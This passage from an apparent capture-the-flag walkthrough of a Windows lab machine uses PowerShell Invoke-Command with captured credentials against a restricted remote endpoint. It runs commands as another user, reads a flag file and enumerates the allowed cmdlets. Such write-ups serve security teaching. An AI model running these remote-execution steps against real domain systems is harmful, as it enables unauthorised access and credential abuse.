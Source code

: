 #### Invoke-Command

A simpler attempt is to just run a command using `Invoke-Command`. This
works:



    PS C:\Utils> Invoke-Command -ScriptBlock { whoami } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    acute\imonks



This is enough to read `user.txt`:



    PS C:\Utils> Invoke-Command -ScriptBlock { cat C:\users\imonks\desktop\user.txt } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    9876b84d3f317ff5c0893e18477e1c13



## Shell as jmorgan on Acute-PC01

### Enumeration

#### Limited Shell

To enumerate further, first I need to understand what commands I have
access to in this configuration. `Get-Command` will tell me that:



    PS C:\Utils> Invoke-Command -ScriptBlock { Get-Command } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

    CommandType     Name                                               Version    Source               PSComputerName      
    -----------     ----                                               -------    ------               --------------      
    Cmdlet          Get-Alias                                          3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Get-ChildItem                                      3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Get-Command                                        3.0.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Get-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Get-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Set-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Set-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Write-Output                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER
